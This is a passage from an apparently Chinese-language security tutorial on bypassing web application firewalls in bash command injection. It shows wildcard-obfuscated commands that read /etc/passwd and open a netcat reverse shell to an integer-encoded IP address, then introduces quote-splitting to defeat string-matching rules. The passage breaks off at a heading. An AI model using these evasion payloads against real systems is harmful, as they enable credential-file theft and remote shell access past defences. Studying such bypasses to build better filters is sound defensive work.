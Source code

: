 我们可以使用通配符来执行命令，例如执行命令：

```bash
ls -l
使用通配符
/?in/?s -l
```

[![使用通配符来执行命令](https://image.3001.net/images/20180921/1537502835_5ba46e73d257c.png!small)](https://image.3001.net/images/20180921/1537502835_5ba46e73d257c.png)

读取/etc/passwd：

```bash
/???/??t /??c/p???w?
有时候WAF不允许使用太多的?号
/?in/cat /?tc/p?sswd
```

[![读取/etc/passwd](https://image.3001.net/images/20180921/1537502841_5ba46e7975cd2.png!small)](https://image.3001.net/images/20180921/1537502841_5ba46e7975cd2.png)

NC反弹shell：

```bash
nc -e /bin/bash 127.0.0.1 3737
为了避免符号.我们可以将IP地址转换成整型。
127.0.0.1 → 2130706433

使用通配符

root@kali:~# /??n/?c -e /??n/b??h 2130706433 3737
```

[![NC反弹shell](https://image.3001.net/images/20180921/1537502846_5ba46e7e6b184.png!small)](https://image.3001.net/images/20180921/1537502846_5ba46e7e6b184.png)

[![NC反弹shell](https://image.3001.net/images/20180921/1537502851_5ba46e8347baa.png!small)](https://image.3001.net/images/20180921/1537502851_5ba46e8347baa.png)

## 技巧二：连接符

在bash的操作环境中还有一个非常有用的功能，那就是连接符，例如：

```bash
root@kali:~# echo hello
hello
root@kali:~# echo h'ello
> '
hello

root@kali:~# echo 'h'ell'o'
hello
```

你唯一需要注意的就是闭合，这点很重要，利用这个我们可以绕过一些匹配字符串的WAF规则。

读取/etc/passwd：
